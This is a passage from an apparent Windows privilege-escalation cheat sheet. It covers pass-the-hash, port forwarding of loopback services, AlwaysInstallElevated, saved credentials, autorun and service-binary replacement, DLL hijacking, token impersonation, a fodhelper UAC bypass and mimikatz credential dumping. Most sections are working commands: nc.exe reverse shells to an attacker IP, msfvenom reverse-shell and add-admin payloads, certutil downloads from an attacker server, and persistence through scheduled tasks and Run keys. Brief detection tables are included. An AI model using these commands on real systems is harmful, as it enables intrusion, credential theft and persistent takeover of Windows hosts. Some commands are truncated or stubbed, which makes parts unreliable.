    $secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    $mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    $computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
⚠️ Limitation: This works with plaintext passwords, not hashes. For actual PtH, use Invoke-WMIExec or similar.

✅ Using PsExec (with hash)
cmd

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
Requires PsExec variant that supports PtH (e.g., in Sysinternals, Impacket, or custom fork).

🔁 Alternative Tools & Methods
Tool	Description
Impacket psexec.py / wmiexec.py	Native support for PtH
Evil-WinRM	Can authenticate with hashes, useful for remote shells
Invoke-WMIExec	PowerShell script for remote command execution
CrackMapExec	Swiss army knife for SMB enumeration + PtH
Rubeus	Can pass TGT tickets for lateral movement (Kerberos equivalent)
Smbexec	Wrapper for smbclient to execute using hashes

🧪 Example: Remote Shell via pth-winexe
bash

    pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:<NTLM_hash> //192.168.1.5 cmd
Result: Interactive cmd.exe shell as Administrator on the remote system.

🛡️ Detection & Mitigation
Defense Strategy	Description
🧼 Disable NTLM	Disable or limit NTLM authentication via GPO
🔐 Enforce SMB Signing	Prevents tampering with SMB messages
🔎 Log Event IDs	Monitor logs: 4624, 4648, 4776 for unusual logins
🔍 Monitor Tools	Detect usage of pth-*, psexec, mimikatz, etc.
🔒 Credential Guard	Protects LSASS from being dumped
📊 Use Sysmon	Track process creation + network connections

✅ Summary Cheat Sheet
Purpose	Command
Dump hashes (WCE)	wce64.exe -w
Remote PtH	pth-winexe -U domain/user%hash //ip cmd
Local PtH (PsExec)	psexec64 \\host -u user -p hash -h command
Set SMBHASH	export SMBHASH=LM:NTLM
Remote PtH (Impacket)	psexec.py -hashes :NTLM domain/user@ip


</details>
<details>
<summary>Loopback Services</summary>
 <br> 
=================
Loopback services are applications or services listening on 127.0.0.1 (localhost) only, meaning they cannot be accessed from outside the machine by default. However, if an attacker has local access (e.g., reverse shell, RDP, or low-privileged foothold), these internal services can be proxied or forwarded externally, and then abused — for example, to exploit internal APIs, web interfaces, or escalate privileges.

🔍 Step 1: Identify Loopback Services
Use netstat to check for services bound only to 127.0.0.1 (localhost):

cmd

    netstat -ano | findstr "LISTEN"
🔍 Look for entries like:

nginx

    TCP    127.0.0.1:8000    0.0.0.0:0    LISTENING    1234
Port 8000 is only available on loopback.

PID 1234 may correspond to a high-privilege service like an internal web API.

✅ Identify the service name behind the PID:
cmd

    tasklist /fi "PID eq 1234"
🔁 Step 2: Port Forward the Loopback Service to Attacker
You can remotely expose the local-only service using port forwarding over an SSH tunnel with plink.exe.

✅ Using plink.exe (SSH Reverse Tunnel):
cmd

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>
🔁 Example:
cmd

    plink.exe -l kali -pw P@ssw0rd 192.168.1.100 -R 9000:127.0.0.1:8000
This binds port 9000 on your attacking machine to the victim’s internal port 8000 (localhost). Now you can open http://localhost:9000 on your attacker box to access the internal service.

⚙️ Use Cases
Use Case	Example
🧪 Exploit internal web apps	HTTP admin panels only listening on 127.0.0.1
🔄 Abuse local privileged APIs	Exploit services like Jenkins, Redis, MySQL bound to localhost
📦 Pivot into internal systems	Forward 127.0.0.1:3306 (MySQL) and reuse credentials
🔐 Extract secrets	Vaults, config servers, DB admin panels (e.g., Mongo Express)

🛠️ Alternatives to plink.exe
✅ ssh from Linux (native):
bash

    ssh -R 9000:127.0.0.1:8000 attacker@attacker-ip
✅ chisel (More advanced tunneling over HTTP):
bash

# On attacker:
    chisel server -p 9001 --reverse

# On victim:
    chisel client attacker-ip:9001 R:9000:127.0.0.1:8000
✅ socat (bidirectional proxying):
bash

    socat TCP-LISTEN:9000,fork TCP:127.0.0.1:8000
✅ Invoke-SSHCommand / PSSession (PowerShell Remoting):
For environments with WinRM enabled:

powershell

    Enter-PSSession -ComputerName target -Credential $creds
    New-NetFirewallRule -DisplayName "Allow SSH Tunnel" -Direction Inbound -LocalPort 22 -Protocol TCP -Action Allow
🔐 Detection & Defense
Detection Technique	Description
🔍 Monitor Netstat Output	Look for services bound to 127.0.0.1
🧪 Check for Reverse SSH	Monitor plink.exe, ssh.exe, or chisel.exe processes
📊 Enable Sysmon Logging	Monitor for unusual child process or network connections
🔒 Restrict Loopback Services	Configure services to require authentication even on loopback
🛡️ Egress Filtering	Block outbound SSH, chisel, or tunneling ports
🧰 Use Application Firewalls	Restrict access to internal-only services using local firewalls

🧪 Example Scenario
✅ Find a local service:
pgsql

    127.0.0.1:8888 - PID 4321 - Web API for internal admin panel
✅ Tunnel it to attacker machine:
cmd

    plink.exe -l kali -pw kali 192.168.1.100 -R 8080:127.0.0.1:8888
✅ On Kali (attacker):
bash

    curl http://localhost:8080
💥 You now access a privileged local service remotely, possibly leading to RCE, token theft, or privilege escalation.

✅ Summary Cheat Sheet
Task	Command
List local ports	`netstat -ano
Identify process by PID	tasklist /fi "PID eq <pid>"
Tunnel with plink	plink.exe -R <LPORT>:127.0.0.1:<RPORT>
Tunnel with SSH	ssh -R <LPORT>:127.0.0.1:<RPORT> user@attacker-ip
Tunnel with chisel	chisel client attacker-ip:port R:...


</details>
<details>
<summary>AlwaysInstallElevated</summary>
 <br> 
=====================
 
🔍 Overview
AlwaysInstallElevated is a Windows policy setting that, when enabled, allows non-privileged users to install Microsoft Installer Packages (.msi files) with elevated (SYSTEM) privileges. This feature, originally intended for administrative convenience, becomes a serious security misconfiguration if both user-level and machine-level policies are enabled simultaneously.

⚠️ If both registry keys (HKCU and HKLM) have AlwaysInstallElevated = 1, any user can install MSI files with SYSTEM-level privileges.

🧪 Detection
Before exploitation, you need to check if the target machine is misconfigured:

✅ Check via Registry
powershell

    reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
Both keys must return AlwaysInstallElevated REG_DWORD 0x1 for the system to be vulnerable.
<img width="1061" height="261" alt="image" src="https://github.com/user-attachments/assets/3fad82f8-9c74-4d4d-9290-96e62ce68605" />

✅ Check via Enumeration Tools
Use winPEASany.exe on the target system to automatically enumerate this setting:

powershell

    .\winPEASany.exe all
Look under "Registry - AlwaysInstallElevated" section for any findings.
<img width="1041" height="119" alt="image" src="https://github.com/user-attachments/assets/eb4d5020-8458-41c9-985b-ab6cd9a2f5d1" />

✅ Remote PowerShell Shell Check (Optional)
If you have a reverse shell on the target, verify with:

powershell

    reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer
Or automate using PowerShell:

powershell

    Get-ItemProperty -Path "HKCU:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
    Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
💥 Exploitation
Once confirmed vulnerable, you can exploit the system by creating and executing a malicious .msi payload.

🔧 Step 1: Generate a Malicious MSI File
Option 1: Add User to Administrators Group
bash

    msfvenom -p windows/exec CMD='net localgroup administrators USERNAME /add' -f msi -o adduser.msi
Replace USERNAME with the low-privileged user account you want to escalate.

Option 2: Create a Backdoor User
bash

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi
🌐 Step 2: Deliver Payload to Target
Option A: Host on Attacker Machine (Kali)
bash

    python3 -m http.server 8999
Option B: Direct Upload (if you have shell access)
powershell

    upload adduser.msi
Victim-side Download:
powershell

    Invoke-WebRequest -Uri "http://<Attacker-IP>:8999/adduser.msi" -OutFile "adduser.msi"
🚀 Step 3: Execute with SYSTEM Privileges
powershell

    msiexec /quiet /qn /i adduser.msi
/quiet /qn: Ensures the installation is completely silent (no GUI or prompts).

/i: Installs the specified MSI file.

🔎 Post-Exploitation: Verify Success
Confirm that the privilege escalation worked by checking group membership:

powershell
net localgroup administrators
You should now see the new or escalated user added to the Administrators group.
<img width="1062" height="586" alt="image" src="https://github.com/user-attachments/assets/b1865faf-8580-4771-bd50-5ef0742083f8" />

📘 Summary
Step	Description
1. Detect	Query registry or use winPEASany.exe to confirm both HKCU and HKLM values set to 1.
2. Create Payload	Use msfvenom to generate a .msi that adds a user or runs arbitrary commands.
3. Deliver Payload	Host on HTTP server or upload directly.
4. Execute with msiexec	msiexec /quiet /qn /i payload.msi runs it as SYSTEM.
5. Verify	Use net localgroup administrators to confirm elevated privileges.

🔐 Mitigation
Admins should ensure AlwaysInstallElevated is not enabled on both user and machine levels unless explicitly required (which is rare in modern environments).

To disable:

bash
     
     reg delete HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f
     reg delete HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f

</details>
<details>
<summary>Stored Credentials</summary>
 <br> 

==================

Windows allows users to store credentials in the system using Credential Manager or via commands like runas /savecred. These credentials are saved in a user-specific vault and may be reused by any user with access to the same session. If the /savecred option was used earlier or credentials were saved via GUI, they can be leveraged to execute commands under higher-privileged contexts without re-entering passwords.

🔍 Step 1: Enumerate Stored Credentials
Use the built-in cmdkey.exe utility to view stored credentials:

cmd

    cmdkey /list
🔎 Sample Output:

    yaml
    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator
✅ This shows that the user PWNED\Administrator has saved credentials available for use.

🚀 Step 2: Execute Commands Using Saved Credentials
Use runas with the /savecred flag to reuse stored credentials without retyping the password:

cmd

    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <port> -e cmd.exe"
💡 runas spawns the command as the specified user. If /savecred is used and credentials were saved earlier, the prompt is skipped.

🧠 Note:

/savecred does not store credentials — it reuses previously saved ones.

You must provide full absolute paths for commands.

💥 Real-World Exploitation Example
User Administrator has previously saved credentials.

You run:

cmd

    runas /user:Administrator /savecred "C:\Windows\System32\cmd.exe"
You now have a shell running as Administrator, no password required.

🔁 Alternatives & Enhancements
✅ Use PsExec (if credentials were saved elsewhere or token is available):
cmd

    psexec.exe -u PWNED\Administrator -p <known-password> cmd.exe
Or combine with hashes if using Pass-the-Hash scenarios.

✅ Use PowerShell to Elevate:
powershell

    Start-Process "cmd.exe" -Credential (New-Object System.Management.Automation.PSCredential("PWNED\Administrator",(ConvertTo-SecureString "Dummy" -AsPlainText -Force)))
⚠️ Only works if plaintext password is known. Doesn’t support /savecred.

✅ Use Task Scheduler for Persistent Elevation:
cmd

    schtasks /create /tn "sysbackdoor" /tr "cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> 4444 -e cmd.exe" /sc once /st 00:00 /ru "PWNED\Administrator" /RL HIGHEST /F
Leverages stored creds if previously authenticated with this account.

🛡️ Detection & Defense
Defense	Description
🔍 Monitor cmdkey.exe usage	Unusual calls can indicate enumeration
📊 Detect runas /savecred usage	Enable command-line logging (e.g., Sysmon Event ID 1)
🔒 Limit use of /savecred	Enforce GPO to block its usage
🔐 Clear saved credentials	Use cmdkey /delete:<target> to remove saved entries
👁️ Monitor for runas.exe and scheduled task abuse	High-privilege task execution by low-privileged users is a red flag

🧹 Optional Cleanup
Clear stored credentials after use:

cmd

    cmdkey /delete:Domain:interactive=PWNED\Administrator
This deletes the saved credential and prevents re-use by attackers.

✅ Summary Cheat Sheet
Task	Command
View stored creds	cmdkey /list
Run with saved creds	runas /user:<user> /savecred "<command>"
Clear saved creds	cmdkey /delete:<target>
Elevate via PsExec	psexec -u <user> -p <password> cmd.exe
Schedule task w/ creds	schtasks /create ... /ru <user>

   </details>

   <details>
<summary>Autorun / Startup Applications</summary>
 <br>
  Windows allows programs to be configured to automatically execute at boot or login via various autorun or startup locations. If any of these locations have insecure file or directory permissions, a low-privileged user may be able to replace or modify a program, resulting in privilege escalation.

This technique becomes powerful when:

The autorun entry points to a program in a folder where users have write access

The program runs as SYSTEM or Administrator

The file is replaced by a malicious payload

🔎 Detection Techniques
✅ Autorun Registry & Startup Paths
Registry keys to check:

    HKLM\Software\Microsoft\Windows\CurrentVersion\Run

    HKCU\Software\Microsoft\Windows\CurrentVersion\Run

    HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

    HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce

✅ Startup Folder (per-user and global)
Global (all users):

      C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

Per-user:

     C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Use icacls to check permissions:

powershell

    icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
Check if "Users" or "Everyone" has (F) or (M) permissions (Full/Modify = vulnerable).
<img width="734" height="304" alt="image" src="https://github.com/user-attachments/assets/bdd1860f-5427-4c79-9a6c-9a06b7d3ea64" />

🔍 Using WinPEAS and Sysinternals Tools
WinPEAS shows:

Insecure file permissions
Autorun entries
Potential DLL hijacking targets
Autoruns64.exe (Sysinternals):
<img width="667" height="226" alt="image" src="https://github.com/user-attachments/assets/0cebe5ff-f10b-4d82-8458-c2ac27de5b42" />

Go to the Logon tab

Identify suspicious entries (e.g., My Program)

Right-click → Check file location and permissions

accesschk64.exe:

cmd

    accesschk64.exe -wvu "C:\Program Files\Autorun Program\program.exe"
Look for:
<img width="400" height="134" alt="image" src="https://github.com/user-attachments/assets/9509b23b-1e66-4efa-a446-21b0086b4c58" />

Everyone: FILE_ALL_ACCESS
💣 Exploitation Techniques
✅ Basic Reverse Shell Payload Creation
Generate a payload using msfvenom:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.42.239 LPORT=4444 -f exe -o reverse.exe
Alternate (PowerShell):

    msfvenom -p windows/powershell_reverse_tcp LHOST=10.6.42.239 LPORT=4444 -f psh > shell.ps1
Start a Python server:

    python3 -m http.server 8999
Download payload on victim:

powershell

    certutil -urlcache -split -f http://10.6.42.239:8999/reverse.exe reverse.exe
Or:

powershell

    Invoke-WebRequest "http://10.6.42.239:8999/reverse.exe" -OutFile "reverse.exe"
✅ Replace Insecure Program
powershell

    Copy-Item "C:\Temp\reverse.exe" "C:\Program Files\Autorun Program\program.exe" -Force
✅ Place in Startup Folder (If Writeable):
powershell

    Copy-Item -Path "C:\Temp\reverse.exe" -Destination "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\startshell.exe"
✅ Persistence via Registry (Optional)
powershell

    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ShellAccess" -Value "C:\Users\<user>\Documents\reverse.exe" -PropertyType String
🧪 Simulate a Session
Log off and back in

Reboot the system

OR trigger any action that invokes the autorun/startup program

Your reverse shell listener should catch a shell as SYSTEM or Administrator.
<img width="581" height="229" alt="image" src="https://github.com/user-attachments/assets/f7eb185f-2167-446a-a243-34d745c02c44" />

🔁 Alternative Exploitation Methods
📌 DLL Hijacking
If an autorun app loads DLLs from the same folder and the folder is writable, you can plant a malicious DLL named as expected.

Tools like Process Monitor or Procmon can help identify DLL load attempts.

📌 Replace Scheduled Task Executable
Scheduled tasks that point to insecure executables or paths can be exploited similarly. Check:

powershell

    schtasks /query /fo LIST /v
Then:

powershell

    accesschk64.exe -wvu "C:\Path\To\Executable.exe"
📌 PowerShell-Based Payload in Startup Folder
Instead of EXE, drop a .ps1 file and create a .bat or .vbs launcher.

Startup Folder Method:

    @echo off
    powershell -exec bypass -File "C:\ProgramData\Startup\shell.ps1"
🧠 Summary
Step	Tool/Command
Detect startup items	Autoruns64.exe, WinPEAS, Registry, Startup folder
Check permissions	accesschk64.exe, icacls
Generate payload	msfvenom, revshells.com
Transfer payload	certutil, Invoke-WebRequest, Python HTTP server
Replace vulnerable EXE	Copy-Item, copy
Trigger execution	Login/reboot or startup folder launch  
 </details>
 
  <details>
<summary>Executable Files</summary>
 <br>
   This privilege escalation technique involves modifying an executable file used by a Windows Service when:

The file is owned or writable by low-privileged users.

The service runs with elevated privileges (e.g., SYSTEM or Administrator).

The service loads the executable directly from disk without verification.

If a user can overwrite or replace the service binary, they can inject a malicious executable that runs with SYSTEM privileges when the service is restarted.

🔍 Detection
✅ Using Accesschk (SysInternals)
Transfer accesschk64.exe to the target Windows machine:

    certutil -urlcache -split -f http://<attacker-ip>:<port>/accesschk64.exe accesschk64.exe

<img width="769" height="230" alt="image" src="https://github.com/user-attachments/assets/d83105b5-e09f-4ac7-9260-d717959584ed" />
Check for weak permissions on service binaries:

    accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
Look for output like:
<img width="748" height="256" alt="image" src="https://github.com/user-attachments/assets/c861dc30-0d3b-4611-88a4-e532ccc08e21" />

Everyone FILE_ALL_ACCESS
That indicates any user can overwrite the service binary — a major misconfiguration.

✅ Using winPEAS
Run winPEAS.exe on the target system. Look under the section:

"Interesting file & directory permissions"

You’ll see world-writable executables linked to services — these are prime targets.

✅ Manual Check (Optional)
Check permissions via GUI:

Right-click the .exe file

Go to Properties → Security → Advanced

See if Users, Everyone, or a non-admin user has Write or Full Control

⚔️ Exploitation
Once you've identified a service binary you can overwrite, follow these steps:

💣 Step 1: Write a Malicious Executable
On Kali Linux:

Edit a malicious C payload that performs privilege escalation (e.g., add user to admins):

c

#include <stdlib.h>
int main() {
  system("cmd.exe /c net localgroup administrators attacker /add");
  return 0;
}
Compile it:

    x86_64-w64-mingw32-gcc windows_service.c -o evil.exe
💾 Step 2: Replace the Target Binary
Upload evil.exe to the target machine:

# On victim (PowerShell or CMD)
copy C:\Temp\evil.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
(Use /Y to overwrite without prompt)

🚀 Step 3: Start the Service

    sc start filepermsvc
The service will launch your malicious payload with elevated privileges.

✅ Step 4: Verify Exploitation
Check that the new user is added:

    net localgroup administrators
🧰 Alternative Methods
🛠 Replace with Reverse Shell
Instead of adding a user, you can embed a reverse shell payload using msfvenom:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your-ip> LPORT=4444 -f exe -o revshell.exe
Then overwrite the service binary with revshell.exe and restart the service.

Start listener on Kali:

    nc -lvnp 4444
🧪 Persistence (Optional)
After escalating, create a new user and add to administrators for long-term access:

powershell

    net user pwned P@ssw0rd! /add
    net localgroup administrators pwned /add
🧱 Hardening Recommendations
If you're auditing a system:

Ensure only SYSTEM or Administrator has write access to service executables.

Use tools like AccessEnum or icacls to review ACLs.

Avoid running services from user-writable locations like C:\Temp\ or Downloads.

📌 Summary
Step	Action
1.	Identify vulnerable service binary with world-writable permissions
2.	Overwrite it with a malicious executable
3.	Restart the service
4.	Get SYSTEM shell or escalate privilege
 </details>
<details>
<summary>DLL Hijacking</summary>
 <br>
 </details>
Exploits applications that load DLLs from directories writable by non-admin users. By placing a malicious DLL with the same name as one the app loads, you can achieve code execution as the application account (often SYSTEM).

✅ Detection & Enumeration
Use Procmon → Filter for “NAME NOT FOUND” on DLL loads.

winPEAS → Check writable directories in program folders.

Search for executable paths in registry or autoruns located in writable directories.

🛠 Exploitation
Identify target executable (foo.exe) in C:\Program Files\VulnerableApp\foo.exe.

Check if that folder is writable:

powershell

    icacls "C:\Program Files\VulnerableApp"
Craft a malicious DLL (e.g., example.dll) exporting expected functions with payload.

    c

    BOOL APIENTRY DllMain(...) {
    system("cmd.exe /c net localgroup administrators attacker /add");
    return TRUE;
    }
Compile with MinGW or MSVC; drop into target folder.

Restart the application or service to trigger DLL loading.

🧰 Tools & Alternatives
Process Monitor (to trace DLL loading).

PEVerify or DLL export readers (e.g. pexports).

Testing environments: Place DLL as foo.dll or loadlib.dll.

 <details>
<summary>Token Impersonation (SeImpersonatePrivilege)</summary>
 <br>
  Users with the SeImpersonatePrivilege can impersonate generic tokens (e.g., service or scheduled tasks) and spawn a new process under SYSTEM or other privileged contexts.

✅ Detection
Run whoami /priv → check for SeImpersonatePrivilege (Enabled).

Check group membership or local policy assignment via secpol.msc or AccessChk.

🛠 Exploitation (JuicyPotato / PrintSpoofer etc.)
Prepare the tool (compiled binary) for your architecture.

On target VM:

powershell

    certutil -urlcache -f http://<attacker-ip>:8999/JuicyPotato.exe Juice.exe
Run:

powershell

    .\Juice.exe -l 8080 -p \pipe\netlogon -t * -a calc.exe
This spawns calc.exe (as SYSTEM). Replace with payload.

🧰 Tools
JuicyPotato / Rubeus / PrintSpoofer / RoguePotato

AccessChk → to verify token rights.
 </details>

 <details>
<summary> UAC Bypass Techniques</summary>
 <br>
  Certain executables in Windows auto-elevate (e.g. fodhelper.exe, eventvwr.exe). Abuse via registry modifications or DLL hijacking to bypass User Account Control.

✅ Detection
Enumerate auto-elevated executables using UACMe’s list.

Check for registry keys in HKCU\Software\Classes\mscfile\shell\open\command.

🛠 Steps (Using fodhelper.exe)
Create .reg file on victim:

    reg
    Windows Registry Editor Version 5.00

    [HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command]
    "DelegateExecute"=""
    "Default"="cmd.exe /c net localgroup administrators attacker /add"
Run .reg file → merge.

Launch:

powershell

    Start-Process fodhelper.exe
Attack commands run elevated without prompt.

🧰 Alternatives
Techniques like eventvwr.exe, slui.exe, sdclt.exe, computerdefaults.exe.

Tools: UACMe, BypassUACST.

 </details>
  <details>
<summary> LSA Secrets & Credential Manager Extraction</summary>
 <br>
  Windows stores credentials in the LSA (LSA Secrets), Credential Manager, and DPAPI—exposing saved credentials or domain passwords.

✅ Detection
Access to system files: SAM, SECURITY, SYSTEM.

User privileges: SeDebugPrivilege.

🛠 Exploitation Steps
Copy mimikatz.exe to target.

Run elevated or under system token:

powershell

    mimikatz # privilege::debug
    sekurlsa::logonpasswords
Alternatively, credman::list to enumerate Credential Manager.

🧰 Tools
Mimikatz, LaZagne, CredDump, SecretsDump (Impacket).
 </details>
 <details>
<summary>Writable PATH Directory Exploit</summary>
 <br>
  If any system PATH folder is writable by a non-admin user, executing a program without specifying full path may call a malicious binary in that folder first.

✅ Detection
powershell

    echo $Env:PATH
    icacls C:\Some\Writable\Path
🛠 Exploitation
Identify a writable PATH location, e.g. C:\Users\Public\Scripts.

Drop cmd.exe or your attacker binary as net.exe into that folder.

Run net or sc commands without full path. Windows loads your malicious binary.
 </details>

 <details>
<summary>WMI Event Subscription (Filter/Consumer Hijack)</summary>
 <br>
  WMI event subscriptions (filters + consumers) can be hijacked if permissions allow — leading to persistent SYSTEM code execution.

✅ Detection
Query WMI:

powershell

    Get-WmiObject -Namespace root\subscription -Class __EventFilter
    Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer
Use wmisecexpire or WMISub tool to list subscriptions.

🛠 Exploitation
Create a malicious __EventConsumer and link via __FilterToConsumerBinding.

Example:

powershell

    $consumer = New-Object -ComObject WbemScripting.SWbemObject
    # Set properties to run payload
    # Bind to Filter
Trigger event → payload runs as SYSTEM.

🧰 Tools
wmiexec, WMISubHijack, WMIQuery.
 </details>

 <details>
<summary>Service Failure Command Execution</summary>
 <br>
  Windows Service manager can execute a command upon failure using the FailureActions ACL. Weak permissions on a service config enable setting a SYSTEM-level failure handler.

✅ Detection
powershell

    sc qfailure MyService
🛠 Exploitation
Modify failure action using:

bash

    sc failure MyService actions= restart/60000 ""/60000 cmd.exe /c "net localgroup administrators attacker /add"
    sc failureflag MyService 1
    sc stop MyService
# let it fail twice to trigger
 </details>
